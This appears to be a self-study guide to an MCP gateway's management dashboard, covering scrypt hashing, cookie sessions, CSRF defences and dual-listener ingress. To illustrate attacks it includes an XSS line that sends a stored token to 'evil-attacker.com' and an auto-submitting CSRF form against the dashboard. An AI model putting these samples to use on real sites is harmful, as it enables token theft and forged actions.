

# Urumi Platform — Phase 5 Project Study Material
## A Comprehensive Self-Study Guide to Multi-Tenant AI Gateway Management, React 19 Dashboard Architecture, Zero-Compilation Scrypt KDF, Dual-Listener Ingress Perimeters, and Enterprise Security Boundaries

> **Author**: Aditya Rathore  
> **Phase**: Phase 5 (Human Administration Dashboard, Browser Identity, Dual-Listener Architecture & Quality Gates 0–7)  
> **Target Audience**: Self-study, technical interviews, architecture reviews, full-stack systems engineering, and AI platform operations  
> **Repository**: [`AdityaDRathore/MCP-Gateway-Kubernetes-Wcom`](https://github.com/AdityaDRathore/MCP-Gateway-Kubernetes-Wcom)  
> **Target Cluster**: Local Kubernetes (`k3d-urumi`)  
> **Last Updated**: October 2026  

---

## Table of Contents
1. [Introduction & Phase 5 Mission](#1-introduction--phase-5-mission)
   - [The Evolution: From Headless Tool Proxy (Phase 4) to Full Management Platform (Phase 5)](#the-evolution-from-headless-tool-proxy-phase-4-to-full-management-platform-phase-5)
   - [The Core Challenge: Human Operators vs Autonomous AI Agents](#the-core-challenge-human-operators-vs-autonomous-ai-agents)
   - [Phase 5 Core Architectural Objectives](#phase-5-core-architectural-objectives)
2. [What is Phase 5? Core Technologies Explained Simply](#2-what-is-phase-5-core-technologies-explained-simply)
   - [Why Machine API Keys Differ Fundamentally from Human Browser Sessions](#why-machine-api-keys-differ-fundamentally-from-human-browser-sessions)
   - [Password Security & Key Derivation: Why Node.js Core `crypto.scrypt`?](#password-security--key-derivation-why-nodejs-core-cryptoscrypt)
   - [The Mathematics & Parameters of Scrypt ($N, r, p$)](#the-mathematics--parameters-of-scrypt-n-r-p)
   - [Opaque Browser Sessions & Cookie Security (`HttpOnly`, `SameSite=Lax`, `Path=/`)](#opaque-browser-sessions--cookie-security-httponly-samesitelax-path)
   - [Cross-Site Request Forgery (CSRF) & Ambient Authentication Breakdown](#cross-site-request-forgery-csrf--ambient-authentication-breakdown)
   - [Dual-Listener Architecture: Why Two HTTP Servers in One Container?](#dual-listener-architecture-why-two-http-servers-in-one-container)
   - [Traefik Ingress Perimeter: Virtual Host Routing at the Cluster Edge](#traefik-ingress-perimeter-virtual-host-routing-at-the-cluster-edge)
   - [Frontend Architecture: React 19, Vite 6 & Vanilla CSS Design System](#frontend-architecture-react-19-vite-6--vanilla-css-design-system)
   - [Dynamic Upstream Lifecycle & Tool Catalog Aggregation](#dynamic-upstream-lifecycle--tool-catalog-aggregation)
   - [Circuit Breaker Pattern for Upstream Fault Isolation](#circuit-breaker-pattern-for-upstream-fault-isolation)
   - [Two-Phase Audit Logging with Dynamic PII Redaction](#two-phase-audit-logging-with-dynamic-pii-redaction)
   - [SQLite Schema Migration 003: Expanding to 8 Relational Tables](#sqlite-schema-migration-003-expanding-to-8-relational-tables)
3. [The Quality Gate Journey (Gate P5-G0 through Gate P5-G7)](#3-the-quality-gate-journey-gate-p5-g0-through-gate-p5-g7)
   - [Gate P5-G0 (Stage 0): Design Freeze, Threat Modeling & Schema Planning](#gate-p5-g0-stage-0-design-freeze-threat-modeling--schema-planning)
   - [Gate P5-G1 (Stage 1): Identity, Scrypt KDF, Sessions & Invitation Engine](#gate-p5-g1-stage-1-identity-scrypt-kdf-sessions--invitation-engine)
   - [Gate P5-G2 (Stage 2): Dual-Listener Ingress Perimeter & Port Isolation](#gate-p5-g2-stage-2-dual-listener-ingress-perimeter--port-isolation)
   - [Gate P5-G3 (Stage 3): Dynamic Upstream Lifecycle, Circuit Breaking & Stress Tests](#gate-p5-g3-stage-3-dynamic-upstream-lifecycle-circuit-breaking--stress-tests)
   - [Gate P5-G4 (Stage 4): Web Dashboard SPA, UI State Management & CSRF Defense](#gate-p5-g4-stage-4-web-dashboard-spa-ui-state-management--csrf-defense)
   - [Gate P5-G5 (Stage 5 Preflight): Live Database Snapshot & Safety Verification](#gate-p5-g5-stage-5-preflight-live-database-snapshot--safety-verification)
   - [Gate P5-G6 (Stage 5 Runtime): Live Deployment & 28-Check Acceptance Suite](#gate-p5-g6-stage-5-runtime-live-deployment--28-check-acceptance-suite)
   - [Gate P5-G7 (Gate 7 Closeout): Traceability, ADRs, Operational Runbooks & Phase 6 Charter](#gate-p5-g7-gate-7-closeout-traceability-adrs-operational-runbooks--phase-6-charter)
4. [Critical Real-World Gotchas & Lessons Learned](#4-critical-real-world-gotchas--lessons-learned)
   - [Gotcha 1: The Ambient Credential Bleed Trap](#gotcha-1-the-ambient-credential-bleed-trap)
   - [Gotcha 2: The Trusted Proxy Bridge Subnet Trap (`172.19.0.0/16`)](#gotcha-2-the-trusted-proxy-bridge-subnet-trap-172190016)
   - [Gotcha 3: Why Native C++ Addons (`bcrypt`/`better-sqlite3`) Kill Container Portability](#gotcha-3-why-native-c-addons-bcryptbetter-sqlite3-kill-container-portability)
   - [Gotcha 4: SQLite WAL Shared Memory Stale Locks Across Pod Evictions](#gotcha-4-sqlite-wal-shared-memory-stale-locks-across-pod-evictions)
   - [Gotcha 5: Non-Destructive Storefront Verification Invariant](#gotcha-5-non-destructive-storefront-verification-invariant)
5. [Study & Interview Preparation Guide](#5-study--interview-preparation-guide)
   - [15 High-Level Technical Questions & Answers for Senior Full-Stack & Systems Engineers](#15-high-level-technical-questions--answers-for-senior-full-stack--systems-engineers)

---

## 1. Introduction & Phase 5 Mission

### The Evolution: From Headless Tool Proxy (Phase 4) to Full Management Platform (Phase 5)

In **Phase 4**, we built the core **Team Model Context Protocol (MCP) Gateway** (`apps/gateway`). It established a centralized HTTP reverse proxy for AI agents, allowing external tools (like Claude Desktop or Cursor) to execute e-commerce, CRM, and Task management operations through a single authenticated endpoint.

However, Phase 4 was **completely headless**. It suffered from three major limitations in real-world team deployment:
1. **No Human Management Interface**: Administrators had to run CLI scripts or raw SQL queries to register new upstream servers, issue API keys, or inspect audit logs.
2. **Identity Conflation**: The gateway only understood static Bearer API keys (`urumi_live_...`). There was no concept of human users logging in with usernames, passwords, browser sessions, or invitation links.
3. **Static Catalog Coupling**: If an upstream service needed to be added, reconfigured, or temporarily disabled, the gateway configuration had to be updated and redeployed.

In **Phase 5**, we bridged this gap by creating an enterprise-grade management ecosystem:

```
[ Phase 4: Headless Machine-Only Proxy ]
AI Client ─── Bearer Token ───> [ Gateway Port 3000 ] ───> Upstream Services
(No browser UI, no human login, CLI-only administration)

                                      ▼
[ Phase 5: Dual-Listener Multi-Tenant Management Platform ]

  [ Machine Plane ]                                     [ Human Control Plane ]
  AI Agents / LLM Clients                              Administrators & Team Members
         │ (Bearer Token)                                      │ (Browser Session Cookie)
         ▼                                                     ▼
┌────────────────────────────────┐                    ┌────────────────────────────────┐
│   http://urumi-gateway.local   │                    │  http://urumi-dashboard.local  │
│   (Traefik Ingress: Host A)    │                    │   (Traefik Ingress: Host B)    │
└───────────────┬────────────────┘                    └────────────────┬───────────────┘
                │                                                      │
                ▼                                                      ▼
┌──────────────────────────────────────────────────────────────────────────────────────┐
│                            Urumi Gateway Container Pod                               │
│                                                                                      │
│   Port 3000 (Data Plane)                             Port 3001 (Control Plane)       │
│   - Route: /mcp (JSON-RPC 2.0 / SSE)                 - Route: /api/v1/browser/*      │
│   - Auth: Bearer Token ONLY                          - Route: / (Static SPA Bundle)  │
│   - Cookie Auth: STRICTLY REJECTED                   - Auth: Cookie + CSRF Header    │
│                                                                                      │
│                           Shared In-Memory State & DB Pool                           │
│                     (node:sqlite in WAL mode on /data/gateway.db)                    │
└──────────────────────────────────────┬───────────────────────────────────────────────┘
                                       │
                    ┌──────────────────┼──────────────────┐
                    ▼                  ▼                  ▼
             [ WooCommerce ]       [ Mock CRM ]      [ Mock Tasks ]
```

---

### The Core Challenge: Human Operators vs Autonomous AI Agents

When designing an AI platform gateway, one of the most dangerous architectural mistakes is **treating human web users and automated AI agents as the same identity type**.

| Dimension | Autonomous AI Agent (Machine Client) | Human Team Member (Browser User) |
|:---|:---|:---|
| **Interaction Pattern** | Programmatic, sub-second API requests | Interactive, visual clicks, form submissions |
| **Credential Type** | High-entropy Bearer token (`mcp_live_...`) | Human-memorizable password, derived via KDF |
| **Session Lifetime** | Months / Quarters (fixed expiration date) | Hours / Days (rolling session window) |
| **Storage Mechanism** | Environment variable, Secret vault, config file | `HttpOnly`, `SameSite=Lax` browser cookie |
| **Vulnerability Surface** | Token leakage, unauthorized outbound exfiltration | Session hijacking, XSS, Phishing, CSRF |
| **Network Boundary** | MCP data plane (`/mcp` on Port 3000) | Browser management plane (`/api/v1/browser/*` on Port 3001) |

If you allow browser cookies to authenticate tool execution on `/mcp`, an attacker can trick an engineer's browser into executing tools against production stores via a Cross-Site Request Forgery (CSRF) attack.

Phase 5 addresses this by enforcing **strict physical and logical boundary separation**.

---

### Phase 5 Core Architectural Objectives

1. **Human Administrative Dashboard (`apps/dashboard`)**: A modern, responsive React 19 SPA delivering full visibility into active tools, upstreams, API keys, team members, and audit logs.
2. **Dual-Listener Process Separation**: Two separate HTTP listeners inside a single Node.js container process sharing in-memory catalogs and database connections.
3. **Zero-Compilation Cryptography**: Implementing Scrypt password hashing, constant-time validation, and 256-bit opaque sessions using Node.js 24 LTS core `crypto`, eliminating native C++ dependencies like `bcrypt`.
4. **Dynamic Upstream Lifecycle**: Allowing administrators to add, inspect, enable, disable, and clean up upstream tool servers at runtime without redeploying the Gateway.
5. **Multi-Layered CSRF & Origin Defense**: Neutralizing ambient browser authentication through custom header verification, Origin/Referer matching, and complete cookie isolation on machine endpoints.
6. **Persistence Hardening (Migration 003)**: Expanding SQLite schema from 4 to 8 tables in Write-Ahead Logging (WAL) mode over a dedicated Kubernetes PVC with automated `VACUUM INTO` snapshots.
7. **Quality Gate Verification (Gates 0–7)**: Executing a disciplined quality journey culminating in a 28/28 live in-cluster runtime acceptance suite and full requirements traceability.

---

## 2. What is Phase 5? Core Technologies Explained Simply

### Why Machine API Keys Differ Fundamentally from Human Browser Sessions

Let's understand why we cannot just issue an API key and put it into browser `localStorage`:

#### The `localStorage` Token Theft Vulnerability:
If a frontend application stores a Bearer token in `window.localStorage`:
```javascript
// BAD PRACTICE FOR SENSITIVE ENTERPRISE APPS:
localStorage.setItem('auth_token', 'mcp_live_98a72b3c4d...');
```
Any third-party JavaScript library, browser extension, or Cross-Site Scripting (XSS) vulnerability can read this token with a single line of code:
```javascript
fetch('https://evil-attacker.com/steal?token=' + localStorage.getItem('auth_token'));
```
The attacker now possesses the persistent machine token and can call backend APIs indefinitely until the token expires or is manually revoked.

#### The Secure Cookie Solution:
Instead, human browser sessions in Phase 5 use **`HttpOnly` cookies**:
```http
Set-Cookie: urumi_session=8f9a2b...; HttpOnly; SameSite=Lax; Path=/; Secure
```
- **`HttpOnly`**: The browser strictly forbids JavaScript from accessing `document.cookie`. Even if an XSS vulnerability exists on the page, malicious scripts cannot read the session token!
- **`SameSite=Lax`**: The browser will never send this cookie on cross-origin `POST` requests, preventing third-party websites from forging mutating requests.
- **`Path=/`**: Restricts the cookie scope to the root domain.

---

### Password Security & Key Derivation: Why Node.js Core `crypto.scrypt`?

When a user registers or logs into a web dashboard, the server must verify their password. But **storing plaintext passwords or simple hashes like MD5 or SHA-256 is catastrophic**.

#### Why SHA-256 is NOT Suitable for Passwords:
SHA-256 is designed to be **extremely fast**. A modern GPU can compute **tens of billions** of SHA-256 hashes per second. If an attacker steals a database of SHA-256 password hashes, they can brute-force an 8-character password in minutes using rainbow tables and hashcat.

#### Enter Key Derivation Functions (KDFs):
Password hashing algorithms must be **deliberately slow and computationally expensive**. They force attackers to spend prohibitive amounts of time and energy to guess a single password.

Popular KDFs include **Bcrypt**, **Argon2**, and **Scrypt**. 
Historically, Node.js developers installed `bcrypt` or `argon2` from npm. However, both of these packages contain **native C++ bindings**. In containerized Kubernetes environments, native packages cause massive problems:
- They require `python3`, `make`, and `g++` inside the Docker build image.
- They fail to compile when switching between Debian/Ubuntu and Alpine base images.
- They risk memory corruption and C++ ABI incompatibilities across Node.js runtime upgrades.

#### The Node.js 24 Core Solution:
Node.js 24 LTS includes **`node:crypto`'s built-in `scrypt`** (`crypto.scrypt` / `crypto.scryptSync`). It is written in optimized C++ compiled directly into the Node.js binary itself. **Zero npm compilation. Zero external dependencies. Zero ABI mismatch.**

---

### The Mathematics & Parameters of Scrypt ($N, r, p$)

Scrypt is not just CPU-hard; it is **memory-hard**. It is specifically designed to resist hardware attacks using custom Application-Specific Integrated Circuits (ASICs) or high-end GPUs by requiring large amounts of RAM to calculate each hash.

The three critical parameters configured in `apps/gateway/src/auth/scrypt-password-service.ts` are:

$$\text{DerivedKey} = \text{scrypt}(\text{Password}, \text{Salt}, \text{keyLen}, N, r, p)$$

1. **CPU/Memory Cost ($N = 16384 = 2^{14}$)**:
   - Dictates how many loop iterations are performed and how large the internal lookup table is.
   - Requires approximately $128 \times N \times r$ bytes of RAM (approx. 16 MB of memory per hash).
   - An ASIC cannot parallelize millions of simultaneous guesses because it would require gigabytes of high-speed memory.
2. **Block Size ($r = 8$)**:
   - Dictates the size of memory chunks (in 128-byte increments) mixed in the sequential memory loop. $8 \times 128 = 1024$ bytes (1 KB).
3. **Parallelization ($p = 1$)**:
   - The number of concurrent threads used to compute the hash. For single-threaded Node.js event-loop workers, $p=1$ guarantees minimal CPU thread contention while maintaining robust cryptographic difficulty.
4. **Cryptographic Salt (32 Bytes)**:
   - Generated using `crypto.randomBytes(32)`: A 256-bit unique random sequence prepended to the password before hashing.
   - Prevents rainbow table lookups: Even if two users choose the identical password `Password123!`, their salt values differ, producing completely different hash strings in SQLite.
5. **Key Length (64 Bytes)**:
   - Produces a 512-bit output key, stored as a 128-character hex string.

#### Timing-Safe Comparison:
When verifying passwords, we never use `derivedHash === storedHash`. Regular JavaScript string comparison stops on the first mismatched character. An attacker measuring execution time down to nanoseconds can deduce character by character. 

Instead, we use **`crypto.timingSafeEqual(bufferA, bufferB)`**, which always takes the exact same number of CPU cycles regardless of whether the buffers match or where they differ.

---

### Opaque Browser Sessions & Cookie Security (`HttpOnly`, `SameSite=Lax`, `Path=/`)

Once a user's password is confirmed via Scrypt, the Gateway issues an **opaque session**:

```typescript
// Generation in session-service.ts
const sessionId = crypto.randomBytes(32).toString('hex'); // 256 bits of entropy
const expiresAt = new Date(Date.now() + 24 * 60 * 60 * 1000).toISOString(); // 24 Hours
```

Why is this called **"opaque"**?
Unlike JSON Web Tokens (JWTs), which encode user identity, roles, and claims directly into a Base64 string that can be parsed by anyone, an opaque token contains **zero information**. It is purely random noise.

The only way to know who owns the token is to look it up in the database:
```sql
SELECT users.id, users.username, users.role 
FROM browser_sessions
JOIN users ON browser_sessions.user_id = users.id
WHERE browser_sessions.id = ? AND browser_sessions.expires_at > datetime('now');
```

#### Why Opaque Database Sessions Beat JWTs for Management Dashboards:
1. **Instant Revocation**: If an administrator clicks "Deactivate Member" or "Revoke Session", the server deletes the row from `browser_sessions`. The next request from that browser fails instantly. With stateless JWTs, revoked tokens remain valid until their expiration timestamp unless complex distributed blacklists are maintained.
2. **Zero Client-Side Information Leakage**: No user metadata or database IDs are exposed to the browser.
3. **Small Footprint**: Cookies carry only a 64-character hex ID, saving bandwidth on every HTTP request.

---

### Cross-Site Request Forgery (CSRF) & Ambient Authentication Breakdown

#### What is CSRF?
Because browsers automatically attach stored cookies to HTTP requests made to a given domain, an attacker can exploit this behavior:

```html
<!-- Malicious website: evil-site.com -->
<form action="http://urumi-dashboard.local/api/v1/browser/upstreams/woocommerce/disable" method="POST">
  <input type="submit" value="Click here to win a prize!" />
</form>
<script>document.forms[0].submit();</script>
```

If an administrator visits `evil-site.com` while logged into the Urumi Dashboard, the browser automatically attaches the `urumi_session` cookie to the `POST` request. The server sees a valid session cookie and disables WooCommerce!

#### How Phase 5 Neutralizes CSRF:
Phase 5 implements a **four-layer defense-in-depth**:

```
[ Inbound Mutating Browser Request (POST / PATCH / DELETE) ]
                          │
                          ▼
            [ Layer 1: Cookie SameSite=Lax ]
       Third-party cross-site POST requests do NOT 
       send the cookie in modern browsers.
                          │
                          ▼
             [ Layer 2: Origin Header Match ]
       Origin header MUST match DASHBOARD_ORIGIN 
       (e.g., http://urumi-dashboard.local).
                          │
                          ▼
           [ Layer 3: Custom Header Check ]
       Request MUST include "X-Requested-With: XMLHttpRequest"
       or "Content-Type: application/json".
       (Standard HTML forms cannot send custom headers!)
                          │
                          ▼
          [ Layer 4: Complete Port Isolation ]
       Port 3000 (MCP Tool Execution) REJECTS ALL COOKIES.
       CSRF against tool execution is structurally impossible!
```

---

### Dual-Listener Architecture: Why Two HTTP Servers in One Container?

In standard web architectures, developers often create separate microservices for the API and the Web Frontend. However, in Kubernetes, running two separate containers requires two Deployments, two Pods, two PVCs (or network storage), and doubles memory consumption.

Phase 5 solves this through a **Dual-Listener Architecture within a single Node.js 24 process** (`apps/gateway/src/index.ts`):

```typescript
// Conceptual structure of apps/gateway/src/index.ts
import http from 'node:http';
import express from 'express';

const mcpApp = express();      // Port 3000 (MCP Protocol Plane)
const browserApp = express();  // Port 3001 (Browser Control Plane)

// Shared in-memory UpstreamManager and SQLite Database Pool
const db = initDatabase('/data/gateway.db');
const upstreamManager = new UpstreamManager(db);

// Port 3000: Machine Tool Plane
mcpApp.use('/mcp', createMcpRouter(upstreamManager, db));
const mcpServer = http.createServer(mcpApp).listen(3000, '0.0.0.0');

// Port 3001: Human Management Plane
browserApp.use('/api/v1/browser', createBrowserApiRouter(upstreamManager, db));
browserApp.use(express.static('/app/apps/dashboard/dist')); // Serve SPA HTML/JS
const browserServer = http.createServer(browserApp).listen(3001, '0.0.0.0');
```

#### Why This is Architecturally Elegant:
1. **Zero Cookie Bleed**: The Port 3000 Express app doesn't even have `cookie-parser` installed or registered! It literally cannot read cookies.
2. **Zero IPC Latency**: When an administrator updates an upstream on Port 3001, the in-memory `UpstreamManager` immediately updates the tool catalog on Port 3000 in zero milliseconds without inter-process communication.
3. **Single Persistent Volume**: Both listeners read and write to the same `/data/gateway.db` SQLite database safely under the single-writer WAL model.

---

### Traefik Ingress Perimeter: Virtual Host Routing at the Cluster Edge

In Kubernetes, how do outside users reach Port 3000 vs Port 3001?
The Helm chart (`infra/helm/urumi-platform/templates/ingress.yaml`) configures the Traefik Ingress Controller using **host-based routing**:

```yaml
apiVersion: networking.k8s.io/v1
kind: Ingress
metadata:
  name: urumi-ingress
  namespace: urumi
spec:
  rules:
    # Rule 1: Machine AI Agents
    - host: urumi-gateway.local
      http:
        paths:
          - path: /mcp
            pathType: Prefix
            backend:
              service:
                name: urumi-gateway
                port:
                  number: 3000  # Routes to Port 3000
    # Rule 2: Human Web Dashboard
    - host: urumi-dashboard.local
      http:
        paths:
          - path: /
            pathType: Prefix
            backend:
              service:
                name: urumi-gateway
                port:
                  number: 3001  # Routes to Port 3001
```

If an external client sends a request to `http://urumi-gateway.local/api/v1/browser/session`, Traefik routes it to Port 3000, which has no such route and immediately returns **HTTP 404 Not Found**. The management API is invisible and inaccessible on the gateway host!

---

### Frontend Architecture: React 19, Vite 6 & Vanilla CSS Design System

The frontend application (`apps/dashboard`) was built from the ground up to provide an intuitive, high-performance administrative experience.

```
apps/dashboard/
├── index.html                 # Single Page Application HTML host
├── vite.config.ts             # Vite 6 bundler config with API proxy
├── src/
│   ├── main.tsx               # React 19 DOM entrypoint
│   ├── App.tsx                # Master state controller & tab router
│   ├── index.css              # Curated Vanilla CSS design system
│   ├── context/
│   │   └── AuthContext.tsx    # Global session & authentication provider
│   └── components/
│       ├── LoginView.tsx      # Interactive login & invitation redemption
│       ├── UpstreamsTab.tsx   # Dynamic upstream register, health, enable/disable
│       ├── ToolsTab.tsx       # Live aggregated catalog browser & JSON schema
│       ├── ApiKeysTab.tsx     # Key issuance modal (single-reveal) & revocation
│       ├── MembersTab.tsx     # Invitation creation & member deactivation
│       └── AuditTab.tsx       # Real-time audit log viewer with correlation IDs
```

#### Key Technical Decisions:
1. **React 19 Hooks**: Leveraged modern React 19 component patterns without legacy class components or heavy Redux dependencies.
2. **Vanilla CSS Design System (`index.css`)**:
   - Zero Tailwind bloat or external CSS preprocessors.
   - Built using curated CSS custom properties (variables) for dark mode, glassmorphism (`backdrop-filter: blur(12px)`), card hover micro-animations, and status pills.
3. **Automated Header Injection**: The centralized API client in `AuthContext.tsx` automatically attaches the CSRF token and `X-Requested-With: XMLHttpRequest` header to all `fetch` requests, ensuring seamless backend security compliance.

---

### Dynamic Upstream Lifecycle & Tool Catalog Aggregation

In Phase 4, tools were statically discovered at startup. In Phase 5, the `UpstreamManager` (`apps/gateway/src/upstream/upstream-manager.ts`) provides a **fully dynamic lifecycle**:

```
[ Administrator Action ] ──► POST /api/v1/browser/upstreams/crm/disable
                                       │
                                       ▼
                     ┌──────────────────────────────────┐
                     │   UpstreamManager State Update   │
                     │  - Sets upstreams.enabled = 0    │
                     │  - Evicts CRM client from pool   │
                     └─────────────────┬────────────────┘
                                       │
                                       ▼
                     ┌──────────────────────────────────┐
                     │      Dynamic Catalog Cache       │
                     │  - Recompiles tools/list cache   │
                     │  - Removes "crm__*" tools        │
                     └─────────────────┬────────────────┘
                                       │
                                       ▼
[ Next AI Agent Request ] ──► POST http://urumi-gateway.local/mcp (tools/list)
                             ◄── Returns catalog with WooCommerce & Tasks ONLY!
```

- When an upstream is **disabled**, its tools vanish from the AI agent's catalog instantly.
- When an upstream is **re-enabled**, the gateway performs a handshake, validates its tool schema, and publishes its tools back into the active catalog without dropping client sessions.

---

### Circuit Breaker Pattern for Upstream Fault Isolation

In distributed systems, when one backend service slows down or crashes, it can bring down the entire gateway by consuming all available HTTP sockets and worker threads.

Phase 5 incorporates an automated **Circuit Breaker** (`apps/gateway/src/upstream/circuit-breaker.ts`) for every registered upstream:

```
           [ Normal Operation: CLOSED ]
           All tool calls execute normally.
                        │
                        │ 5 Consecutive Failures / Timeouts
                        ▼
            [ Fault Detected: OPEN ]
     Tool calls to this upstream are REJECTED 
     IMMEDIATELY with an error. No network calls made!
     (Protects gateway sockets & event loop)
                        │
                        │ Background Health Probe Succeeds
                        ▼
           [ Canary Recovery: HALF-OPEN ]
      Canary tool calls allowed through to test upstream.
                        │
            ┌───────────┴───────────┐
            │ Success               │ Failure
            ▼                       ▼
       [ CLOSED ]                [ OPEN ]
```

An administrator can also trigger an immediate reset via the dashboard or API:
`POST /api/v1/browser/upstreams/:id/retry-cleanup`.

---

### Two-Phase Audit Logging with Dynamic PII Redaction

Compliance regulations (GDPR, PCI-DSS, SOC 2) mandate that every automated tool execution modifying business data must be recorded, while strictly preventing customer Personally Identifiable Information (PII) from leaking into logs.

The `AuditService` (`apps/gateway/src/audit/audit-service.ts`) executes a **Two-Phase Commit**:

```
AI Agent Invokes Tool ──► [ Phase 1: Pre-Execution Log ]
                          - Generates unique correlation_id
                          - Records tool name, user_id, api_key_id
                          - Runs arguments through PII Redaction Engine
                          - Inserts row with status = 'IN_PROGRESS'
                                     │
                                     ▼
                          [ Tool Executes in Upstream ]
                          (WooCommerce / CRM / Tasks)
                                     │
                                     ▼
Tool Returns Result   ──► [ Phase 2: Post-Execution Log ]
                          - Computes execution duration (duration_ms)
                          - Updates row with status = 'SUCCESS' or 'ERROR'
                          - Records redacted response summary
```

#### The PII Redaction Engine:
Before arguments are saved to the `audit_logs` table in SQLite, sensitive keys are recursively scrubbed:
```typescript
const SENSITIVE_KEYS = ['email', 'billing_address', 'phone', 'password', 'token', 'secret'];

function redactObject(obj: any): any {
  // Recursively masks sensitive fields:
  // "customer_email": "john@doe.com" -> "customer_email": "*** REDACTED ***"
}
```

---

### SQLite Schema Migration 003: Expanding to 8 Relational Tables

Phase 5 executed Migration 003 (`apps/gateway/src/db/migrations/003_auth_and_audit.sql`), establishing a clean 8-table relational architecture:



---

## 3. The Quality Gate Journey (Gate P5-G0 through Gate P5-G7)

Phase 5 was engineered through a rigorous **Quality Gate Framework** consisting of 8 progressive gates:

```
[ P5-G0: Plan ] ──► [ P5-G1: Identity ] ──► [ P5-G2: Perimeter ] ──► [ P5-G3: Resilience ]
                                                                             │
[ P5-G7: Closeout ] ◄── [ P5-G6: Runtime ] ◄── [ P5-G5: Backup ] ◄── [ P5-G4: Frontend ]
```

---

### Gate P5-G0 (Stage 0): Design Freeze, Threat Modeling & Schema Planning
- **Goal**: Formulate the architectural blueprint for Phase 5 without touching live infrastructure.
- **Key Actions**:
  - Authored the Phase 5 Design Freeze Package.
  - Designed the dual-listener topology and Migration 003 schema.
  - Performed threat modeling on browser session hijacking, CSRF vectors, and C++ native module supply-chain risks.
- **Deliverables**: `Resource/implementation/phase_5_g1_design_freeze_package.md`.

---

### Gate P5-G1 (Stage 1): Identity, Scrypt KDF, Sessions & Invitation Engine
- **Goal**: Implement zero-compilation user identity and invitation lifecycle.
- **Key Actions**:
  - Built `ScryptPasswordService` using Node core `crypto.scrypt` ($N=16384, r=8, p=1$).
  - Built `SessionService` generating 256-bit opaque tokens with expiration.
  - Implemented `InvitationService` enabling single-use, tokenized user invitations.
  - Built CLI bootstrap tool: `npm --prefix apps/gateway run cli:bootstrap-admin`.
- **Validation**: Full integration suite in `apps/gateway/test/integration/stage1-auth.test.ts`.

---

### Gate P5-G2 (Stage 2): Dual-Listener Ingress Perimeter & Port Isolation
- **Goal**: Separate MCP machine traffic from human dashboard traffic at the process, port, and Ingress boundaries.
- **Key Actions**:
  - Configured `apps/gateway/src/index.ts` to spin up Port 3000 (`http-mcp`) and Port 3001 (`http-browser`).
  - Updated Helm Service template (`gateway-service.yaml`) to expose both ports.
  - Configured Traefik Ingress (`ingress.yaml`) with virtual host routing: `urumi-gateway.local` -> 3000, `urumi-dashboard.local` -> 3001.
- **Validation**: Cross-port boundary testing proving that browser routes return 404 on Port 3000, and MCP routes return 404 on Port 3001.

---

### Gate P5-G3 (Stage 3): Dynamic Upstream Lifecycle, Circuit Breaking & Stress Tests
- **Goal**: Provide fault-tolerant, dynamic upstream aggregation and concurrency resilience.
- **Key Actions**:
  - Implemented `UpstreamManager` with runtime register, enable, disable, and tool inspection endpoints.
  - Built `CircuitBreaker` pattern (tripping after 5 consecutive failures) with `retry-cleanup` capability.
  - Executed concurrency stress tests simulating simultaneous high-volume tool calls.
- **Validation**: Stress test suite in `apps/gateway/test/integration/stage3-concurrency-stress.test.ts`.

---

### Gate P5-G4 (Stage 4): Web Dashboard SPA, UI State Management & CSRF Defense
- **Goal**: Build and package the human administration web application.
- **Key Actions**:
  - Built `apps/dashboard` with React 19, TypeScript, and Vite 6.
  - Implemented Vanilla CSS design system with responsive layouts, dark mode, and glassmorphism.
  - Integrated `AuthContext.tsx` with automatic CSRF header injection (`X-Requested-With: XMLHttpRequest`).
  - Implemented all 5 core views: Upstreams, Tools, API Keys, Team Members, and Audit Logs.
- **Validation**: Monorepo workspace build (`npm run --workspaces build`) passed with zero errors.

---

### Gate P5-G5 (Stage 5 Preflight): Live Database Snapshot & Safety Verification
- **Goal**: Guarantee zero data loss and verify rollback readiness before touching the live cluster.
- **Key Actions**:
  - Executed live non-blocking database backup via `VACUUM INTO '/data/backups/gateway-pre-stage5.db'`.
  - Archived snapshot locally: `backups/pre-stage5/gateway-pre-stage5.db` (SHA-256: `a9307df1231b0cf0446823214e52420c32c081ce7d7525aaa7e5df435377ff6f`).
  - Recorded live storefront baseline: verified WooCommerce Product IDs 10, 11, 12 and Order #14 intact.
- **Deliverables**: Preflight verification manifest `backups/pre-stage5/gateway-pre-stage5.manifest.json`.

---

### Gate P5-G6 (Stage 5 Runtime): Live Deployment & 28-Check Acceptance Suite
- **Goal**: Deploy container image `urumi-gateway:1.0.0` to cluster `k3d-urumi` and run complete live acceptance tests.
- **Key Actions**:
  - Upgraded Helm release `urumi-store` to Revision 10 in namespace `urumi`.
  - Executed 28 automated runtime acceptance checks across 8 distinct categories (`TEST-8.1.1` to `TEST-8.8.2`).
  - Verified 100% pass rate: authentication, sessions, CSRF, upstreams, API keys, audit logging, dual-listener isolation, and storefront integrity.
- **Deliverables**: Acceptance report `Resource/implementation/phase_5_g6_stage_5_final_acceptance_report.md`.

---

### Gate P5-G7 (Gate 7 Closeout): Traceability, ADRs, Operational Runbooks & Phase 6 Charter
- **Goal**: Final documentation, formal gap reconciliation, operator runbooks, and Phase 6 handoff.
- **Key Actions**:
  - Reconciled requirements traceability matrix (`docs/requirements-traceability.md`).
  - Accepted ADR-012, authored ADR-019 (Scrypt/CSRF) and ADR-020 (Dual-Listener Ingress), and created the 20-ADR index.
  - Authored comprehensive Operational & Disaster Recovery Runbook (`docs/phase-5/operational-runbook.md`).
  - Authored Repeatable Evaluation Demo Script (`docs/phase-5/p5-demo-script.md`).
  - Reconciled all 10 technical gaps (`GAP-C01` to `GAP-C10`) with empirical proof.
